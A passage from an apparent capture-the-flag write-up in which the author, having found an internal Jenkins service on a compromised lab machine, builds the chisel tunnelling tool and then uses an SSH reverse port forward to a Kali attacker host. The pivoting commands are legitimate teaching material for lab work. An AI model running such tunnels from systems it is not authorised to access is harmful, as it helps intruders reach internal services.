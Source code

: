 It seems a Jenkins:

![e428672a858458b75e9708207159e143.png](https://raw.githubusercontent.com/mor88888888/writeups/main/internal/_resources/e428672a858458b75e9708207159e143.png)

Next to do is forward this port to our attacker machine. I tried with chisel:
```
git clone https://github.com/jpillora/chisel
cd chisel
go build -ldflags "-s -w" .
upx chisel
```

But I had an error in the victim machine because of I compiled it in mi updated machine so there is a newer library needed by the binary:

![0bdc6e2084d3eab8d51862addb815187.png](https://raw.githubusercontent.com/mor88888888/writeups/main/internal/_resources/0bdc6e2084d3eab8d51862addb815187.png)

I can also use ssh for port forwarding, in this case reverse port forwarding:
```
ssh -f -N -T -R 1234:127.0.0.1:8080 kali@10.9.3.146
```
